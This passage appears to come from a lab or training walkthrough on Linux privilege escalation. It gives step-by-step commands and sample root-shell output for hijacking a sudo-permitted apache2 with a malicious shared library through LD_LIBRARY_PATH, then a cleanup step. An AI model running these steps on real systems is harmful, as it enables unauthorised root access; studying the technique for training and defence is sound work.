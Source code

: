 ```bash
ldd /usr/sbin/apache2
```

**Explanation:**  
The `ldd` command prints the shared libraries required by a program, which can be targeted for substitution via `LD_LIBRARY_PATH`.

**2. Compile a Malicious Shared Object:**

Create a shared object with the same name as one of the libraries listed by `ldd`, for example, `libcrypt.so.1`:

```bash
gcc -o /tmp/libcrypt.so.1 -shared -fPIC /home/user/tools/sudo/library_path.c
```

**Explanation:**  
This command compiles the C code into a shared object named `libcrypt.so.1`, which mimics a legitimate library but contains malicious code.

**3. Execute Apache2 with LD_LIBRARY_PATH Exploit:**

Run `apache2` using sudo while setting the `LD_LIBRARY_PATH` environment variable to the directory containing your malicious library:

```bash
sudo LD_LIBRARY_PATH=/tmp apache2
```

**Sample Output:**

```bash
apache2: /tmp/libcrypt.so.1: no version information available (required by /usr/lib/libaprutil-1.so.0)
root@debian:/home/user# id
uid=0(root) gid=0(root) groups=0(root)
```

**Explanation:**  
When `apache2` runs, it loads the malicious `libcrypt.so.1` from `/tmp` instead of the legitimate one, due to the `LD_LIBRARY_PATH` override. This results in executing the exploit code in the shared object, granting root access.

### Step 4: Experiment with Different Libraries

If the exploit does not work with one library, try renaming your shared object to match another library used by the target program. This process can be trial and error, depending on the program's requirements and how the library is loaded.

### Cleanup

After gaining root access, remember to exit the root shell and remove any malicious shared objects or files you created:

```bash
rm /tmp/preload.so /tmp/libcrypt.so.1
exit
```
